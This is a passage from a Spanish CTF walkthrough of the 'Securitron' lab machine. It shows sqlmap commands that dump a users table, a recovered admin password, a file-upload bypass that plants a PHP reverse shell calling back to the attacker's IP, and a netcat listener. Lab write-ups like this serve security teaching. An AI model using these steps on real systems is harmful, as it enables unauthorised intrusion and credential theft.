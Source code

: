 Obtenemos las tablas de la base de datos `pms_db`:

```
sqlmap -r request.txt --level 5 --risk 3 -D pms_db --tables
```

![sqlmap tables](/assets/securitron/image-17.png)

Obtenemos los datos de la table `users` de la base de datos `pms_db`, la contraseña parece estar sin hashear, ¡bingo!

```
sqlmap -r request.txt --level 5 --risk 3 -D pms_db -T users --dump
```

![sqlmap table users](/assets/securitron/image-18.png)

## LFI / Shell

Entramos en la aplicación desde el formulario `http://admin19-32.securitron.thl/Admin/login.php` con el usuario `admin:Ntpqc6Z7MDkG`.

![Employee Management System Admin](/assets/securitron/image-19.png)

Preparamos un revshell en PHP, utilizo el de `PHP PentestMonkey` ya que estamos ante una aplicación en PHP, configurando nuestra IP (`10.0.2.15`) y el puerto deseado (`9001`), y creamos un fichero con el nombre `avatar.php.png`.

![PHP PentestMonkey revshell](/assets/securitron/image-20.png)

Nos vamos al apartado "User Management" > "Add User". Abrimos Burp Suite, activamos el intercept y configuramos el proxy del navegador, rellenamos los campos para crear un nuevo usuario y seleccionamos nuestra revshell creada anteriormente `avatar.php.png` como imagen para el avatar.

![Burpsuite](/assets/securitron/image-21.png)

Modificamos el filename de `avatar.php.png` a `avatar.php` en Burp Suite y enviamos la petición `Forward`.

![Burpsuite 2](/assets/securitron/image-22.png)

Nos aparecerá un mensaje indicando que el usuario se ha añadido correctamente, ahora ya podemos desactivar el proxy de Burp Suite del navegador.

Si vamos al listado de usuarios User `Management > Admin Record` y inspeccionamos el código, podremos encontrar la dirección donde se ha subido el `avatar.php` donde se encuentra nuestra revshell.

![URL revshell](/assets/securitron/image-23.png)

Nos ponemos a escuchar con netcat ...

```bash
nc -lvnp 9001
```

y cargamos la siguiente dirección con curl o el navegador.
